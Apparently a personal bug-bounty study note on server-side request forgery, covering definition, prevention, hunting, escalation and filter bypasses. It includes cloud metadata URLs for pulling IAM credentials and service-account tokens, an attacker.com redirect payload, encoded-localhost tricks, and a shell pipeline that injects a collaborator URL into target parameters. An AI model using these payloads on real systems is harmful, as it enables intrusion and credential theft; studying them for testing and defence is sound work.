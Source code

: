 ### what & why
> a vulnerability that lets an attacker send requests on behalf of a server, which allowing them to assume a privileged position on a network, bypass firewall controls, and gain access to internal services
### types
1. regular SSRF 
2. blind SSRF, the attacker does not receive feedback from the server via an HTTP response or an error message. can found via out-of-band DNS resolve request, or out-of-band HTTP request and then monitor your server logs, look for the server request headers 
### Prevention
if the server does not make a distinction between internal and external resources this cuz the vulnerability, Two main types of protection against SSRFs exist: 
1. blocklists, The server will block a request if it contains a blocklisted address as input
2. allow-lists, The server will allow a request if url found in the allow-list
### hunt for it 
1. Spot Features Prone to SSRFs
	- SSRFs occur in features that require visiting and fetching external resources. These include webhooks, file uploads, document and image processors, link expansions or thumbnails, and proxy services.
		- Webhooks are custom HTTP callback endpoints used as a notification system for certain application events: such as new user sign-up or application error occurs
		- [H1 report](https://hackerone.com/reports/2301565)
	- any endpoint that processes a user-provided URL: imageURL,.. or any third-party software they may be using such as Jira
	- URLs embedded in files that are processed by the application (XML files and PDF files can often be used to trigger SSRFs)
	- hidden API endpoints that accept URLs as input, and input that gets inserted into HTML tags
	- test found open redirect
2. Provide Potentially Vulnerable Endpoints with Internal URLs
	- test how they handle local redirect by set up 302 response, or JS using pipdream, or NGrok, pingb.in, requestbin.com, webhook.site, canarytokens.org. also u can sleep(1000) before the redirect
	- burp collaborator, intrach burp plug-in 
3. Check the Results for A service banner, errors
4. Since you cannot use blind SSRFs to read internal files or access internal services, u need to confirm it by explore internal network(Subnet scan), or port scan. and You can look especially for differences in response time and HTTP response codes, keep in mind may there are a firewall inplace.
5. Escalating the Attack
	1. scan the network for reachable hosts. find getway(10.0.0.1, 192.168.1.1) to locate the subnet 
	2. port-scan internal machines to fingerprint internal services. add port to payload url 
	3. collect instance metadata and get [[RCE]]
		Cloud computing services allow businesses to run their applications on other people’s servers, and offers an instance metadata tool that enables EC2 instances(VMs) to access data about themselves by querying the API endpoint at 169.254.169.254 `http://[::ffff:a9fe:a9fe]` IPv6 
		1. Querying EC2 Metadata: `http://169.254.169.254/latest/meta-data/`
			- http://169.254.169.254/latest/meta-data/ returns the list of available metadata that you can query.
			- http://169.254.169.254/latest/meta-data/local-hostname/ returns the internal hostname used by the host.
			- http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME returns the security credentials of that role.
			- http://169.254.169.254/latest/dynamic/instance-identity/document/ reveals the private IP address of the current instance.
			- http://169.254.169.254/latest/user-data/ returns user data on the current instance.
		1. Querying Google Cloud Metadata
		   Google implements additional security measures for its API endpoints, so querying Google Cloud Metadata APIv1 requires one of these special headers:
		   `Metadata-Flavor: Google`, `X-Google-Metadata-Request: True`
		   > bypass this protection, because most endpoints accessible through `APIv1` can be accessed via the `API v1beta1` endpoints instead. API v1beta1 is an older version of the metadata API that doesn’t have the same header requirements
			- http://metadata.google.internal/computeMetadata/v1beta1/instance/serviceaccounts/default/token returns the access token of the default account on the instance.
			- http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ ssh-keys ret
		1. DigitalOcean: http://169.254.169.254/metadata/v1/endpoint
		2. Kubernetes: https://kubernetes.default and https://kubernetes.default.svc/metrics
	1. bypass access controls may there are `admin.example.com`,APIs that only accessible throw intern connection
### bypass Protection
- Bypass Allowlists: by play with url => `https://pics.example.com@127.0.0.1` , `https://127.0.0.1/pics.example.com` , use a redirect function on `https://pics.example.com`
- Bypass Blocklists
	- Fooling It with Redirects: 
	  `https://public.example.com/proxy?url=https://attacker.com/ssrf`  where `attakcer.com` host `<?php header("location: http://127.0.0.1"); ?>`
	  - Using IPv6 Addresses: `::1` = localhost , `fc00::` is the first address on the private network.
	  - Tricking the Server with DNS: Modify the A/AAAA record of a domain you control and make it point to the internal addresses on the victim’s network. or just use online ones such: `hackingwithpentesterlab.link`, `spoofed.burpcollaborator.net`, `assets.pentesterlab.com.hackingwithpentesterlab.link`
	  - use alternative address: [http://0.0.0.0:1234], 
	  - Switching Out the Encoding
		  - 127.0.0.1 in decimal translates to `http://0x7f.0x0.0x0.0x1` in hex
		  - 127.0.0.1 translates to `http://0177.0.0.01` in octal
		  - 127.0.0.1 is the decimal representation of 01111111.00000000.00000000.00000001
		    When we translate the entire number, $(01111111000000000000000000000001)b$ = $(2130706433)dec$ so `https://2130706433` instead of `https://127.0.0.1`
	- URL-encoded: `https://localhost` => `https://%6c%6f%63%61%6c%68%6f%73%74` 
	- combined together `http://0177.0.0.0x1` , `http://127.0.1`, `http://127.1`

### automation
[SSRFmap](https://github.com/swisskyrepo/SSRFmap/),
```
Step 1: Subdomain Enumeration 
•DNS Dumpster •Sublist3r •Amass •Google Dorking •Certificate Transparency Logs •subdomainer
Step 2: Find Live Domains cat all-domains.txt | httpx > all-live.txt
Setp 2b: wayback machine: cat all-live.txt | python3 waymore.py | anew

Step 3: Identify All URLs cat all-live.txt | gauplus -subs -b png,jpg,gif,jpeg,swf,woff,gif,svg -o allUrls.txt

Step 4: Injection BurpCollaborator/Interactsh-Client URL in Parameters cat /home/casperino/tools/nuclei/httpx.txt | grep "=" | ./qsreplace http://40ga7gynfy6pcg06ov.oastify.com > ssrf.txt

  
Step 5: Test for SSRF Vulnerabilities cat ssrf.txt | httpx -fr

Step 6: How to check which URL is vulnerable split -l 10 ssrf.txt output_file_

```


other resources: file:///F:/Courses/02-cyber%20security/4-%20offensive%20security/PDFs/Offensive%20Security%20AWAE%20WEB-300%20OSWE.pdf page:437 a complete chapter(12) talked about how to exploit SSRF => port scanning, subnet scanning, mut more
[Blind SSRF Chains](https://github.com/assetnote/blind-ssrf-chains)